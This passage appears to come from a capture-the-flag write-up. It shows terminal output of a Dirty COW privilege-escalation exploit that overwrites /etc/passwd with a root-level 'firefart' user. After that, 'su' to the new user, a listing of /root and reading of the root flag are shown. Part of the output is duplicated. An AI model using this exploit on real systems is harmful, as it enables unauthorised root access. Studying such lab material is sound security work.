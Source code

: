 ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test

Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: 7ffa136a2000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd


www-data@ubuntu:/tmp$ su firefart
su firefart
Password: test

firefart@ubuntu:/tmp# cd /root
cd /root
firefart@ubuntu:~# ls -la
ls -la
total 32
drwx------  4 firefart root 4096 2018-04-14 07:36 .
drwxr-xr-x 22 firefart root 4096 2018-04-13 16:10 ..
drwx------  2 firefart root 4096 2018-04-13 16:06 .aptitude
-rw-------  1 firefart root   82 2018-07-31 07:44 .bash_history
-rw-r--r--  1 firefart root 3106 2010-04-23 02:45 .bashrc
drwxr-xr-x  2 firefart root 4096 2018-04-14 07:32 .cache
-rw-r--r--  1 firefart root  140 2010-04-23 02:45 .profile
-rw-r--r--  1 firefart root   33 2018-04-14 07:36 root.txt
firefart@ubuntu:~# cat root.txt
cat root.txt
8f420533b79076cc99e9f95a1a4e5568
{% endhighlight %}